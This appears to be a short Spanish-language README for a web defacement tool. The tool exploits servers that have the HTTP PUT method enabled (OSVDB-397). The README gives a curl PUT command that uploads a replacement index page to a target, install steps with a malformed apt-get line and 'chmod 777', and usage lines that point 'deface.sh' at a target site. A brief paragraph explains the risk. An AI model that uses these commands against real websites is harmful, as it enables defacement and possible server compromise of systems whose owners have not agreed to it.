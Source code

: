 # Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index2.htm" "https://IP/index2.htm" -vv

# Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

# Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

OSVDB-397 El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.

# www.hackingyseguridad.com
